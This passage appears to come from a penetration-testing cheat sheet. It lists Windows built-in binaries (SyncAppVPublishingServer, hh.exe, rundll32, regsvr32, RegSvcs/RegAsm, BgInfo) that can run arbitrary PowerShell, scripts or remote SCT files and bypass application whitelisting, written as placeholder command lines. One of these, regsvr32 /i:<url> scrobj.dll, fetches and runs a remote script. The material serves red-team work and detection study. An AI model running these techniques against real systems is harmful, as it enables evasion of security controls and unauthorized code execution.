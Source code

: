 <span id="anchor-330"></span>Run Commands with
SyncAppVPublishingServer.exe (Part of Application Virtualization Client)

```
SyncAppVPublishingServer.exe “n; **&lt;PowerShell\_Commants&gt;**
```

<span id="anchor-331"></span>Open an HTML or File Path with hh.exe

```
hh.exe **&lt;url\_or\_path&gt;**
```

<span id="anchor-332"></span>Run PowerShell Via JavaScript with
RunDLL32.exe

```
rundll32.exe javascript:"..\\mshtml,RunHTMLApplication "**&lt;PowerShell\_Commands&gt;**"
```

<span id="anchor-333"></span>Run Remote SCT Scripts with RegSvr32.exe

```
regsvr32.exe /s /n /u /i:**&lt;url\_to\_sct&gt;** scrobj.dll
```

<span id="anchor-334"></span>Run Commands with RegSvcs.exe & RegAsm.exe

Create a C\# project that utilizes the DLL Register & Unregister
Methods, similar to this example:
[*https://gist.github.com/xenoscr/2e5b1eec8ce1f7c1bbc2eed5a3bf3d07*](https://gist.github.com/xenoscr/2e5b1eec8ce1f7c1bbc2eed5a3bf3d07)

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk <strong>&lt;c#_project&gt;</strong>
To use the register module:
regsvcs.exe regsvcs.dll
OR
Regasm.exe regsvcs.dll
To use unregister module:
Regsvcs.exe /U regsvcs.dll
OR
Regasm.exe /U regsvcs.dll</p></td>
```

<span id="anchor-335"></span>Run Commands with BgInfo.exe

Create a custom \*.bgi file that will execute your custom VBS commands.
Similar to what is described here:

-   [*https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/*](https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/)
-   [*https://msitpros.com/?p=3831*](https://msitpros.com/?p=3831)

```
bginfo.exe **&lt;custom\_bgi\_file&gt;** /popup /nolicprompt
```

<span id="anchor-336"></span>Run Commands with Custom DLLs
